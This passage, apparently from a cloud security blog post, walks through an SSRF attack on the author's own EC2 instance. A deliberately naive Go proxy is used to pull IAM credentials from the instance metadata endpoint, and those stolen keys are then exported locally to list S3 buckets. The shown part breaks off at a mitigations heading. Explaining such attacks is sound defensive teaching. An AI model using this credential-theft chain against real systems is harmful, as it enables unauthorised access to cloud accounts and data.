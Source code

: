 followed by the typical steps for installing golang …

```bash
aws $ sudo yum update
aws $ sudo yum install -y golangand then I launched the forwarding proxy:

aws $ go build ./forward.go
aws $ sudo ./forward
```

I had a crappy proxy listening on port 80, ready to forward any request that it receives in the _url_ parameter.The proxy is purposely dumb (it’s a simple example of SSRF). But being so simple, it’s obvious that it also forwards any requests to the metadata endpoint.

And for all intents and purposes, the request seems to be made from the actual instance. So I can get the credentials under which the EC2 instance is running:

```
local $ curl <aws-ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<name of the role>
{
  "Code" : "Success",
  "LastUpdated" : "2019-08-18T19:40:03Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "<REDACTED>",
  "SecretAccessKey" : "<REDACTED>",
  "Token" : "<REDACTED>",
  "Expiration" : "2019-08-19T02:10:29Z"
}
```

I don’t know what was the specific compromise in Capital One’s case.

But **SSRF can be really nasty in a cloud environment**.

## Using compromised credentials

Obviously, once you have those credentials, you can use them from anywhere in the world.

In the following listing, from a local machine exploiting SSRF, first we get the credentials and then those credentials are used to get the number of S3 buckets.

```bash
local $ curl -s <aws-machine-ip>/?url=<http://169.254.169.254/latest/meta-data/iam/security-credentials/gonzalo-metadata> > /tmp/aws_cred.json
local $ export AWS_ACCESS_KEY_ID=$(jq -r '.AccessKeyId' /tmp/aws\_cred.json)
local $ export AWS\_SECRET\_ACCESS\_KEY=$(jq -r '.SecretAccessKey' /tmp/aws_cred.json)
local $ export AWS_SESSION_TOKEN=$(jq -r '.Token' /tmp/aws_cred.json)
local $ aws s3 ls|wc -l
8
```

Let’s reiterate this again.

Once you’ve got the credentials, you can use them to access any AWS services that the instance is allowed to access.#### Mitigations
